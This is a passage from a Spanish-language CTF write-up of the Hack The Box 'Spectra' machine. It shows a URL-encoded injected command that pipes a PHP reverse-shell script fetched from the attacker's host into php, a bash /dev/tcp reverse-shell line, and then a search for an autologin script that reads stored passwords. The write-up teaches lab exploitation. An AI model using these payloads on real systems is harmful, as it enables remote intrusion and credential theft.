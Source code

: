 Ahora simplemente le indicamos que nos haga una petición a ese archivo, pero como plus le indicamos que su contenido lo interprete con `PHP`:

```html
<!-- Sin URL encode -->
xmd=curl http://10.10.14.194:8000/phpr.php | php

<!-- URL encode -->
xmd=curl%20http%3A%2F%2F10.10.14.194%3A8000%2Fphpr.php%20%7C%20php
```

Y en nuestro `nc` tenemos:

![317bash_revSH_nginx](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317bash_revSH_nginx.png)

Perfecto, ahora si tenemos una Shell (: Pueeeees, a enumerar...

* [Realizando **tratamiento de la TTY** con ayuda de **S4vitar**](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

...

(Validando el porqué no pudimos obtener RCE mediante `bash` ni `nc`)

```bash
bash-4.3$ which nc
which: no nc in ((null))
bash-4.3$ locate nc
locate: can not stat () `/usr/local/db/mlocate/mlocate.db': Permission denied
bash-4.3$ nc
bash: nc: command not found
bash-4.3$ bash -i >& /dev/tcp/10.10.14.194/4434 0>&1
bash: /dev/tcp/10.10.14.194/4434: No such file or directory
```

En todos obtuvimos errores, por eso no había ninguna ejecución :(

La flag del user esta en el usuario `katie`:

...

## Movimiento lateral [#](#movimiento-lateral) {#movimiento-lateral}

Enumerando nos encontramos con un archivo raro en la ruta `/opt/autologin.conf.orig`:

```bash
nginx@spectra:/opt$ cat autologin.conf.orig 
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
```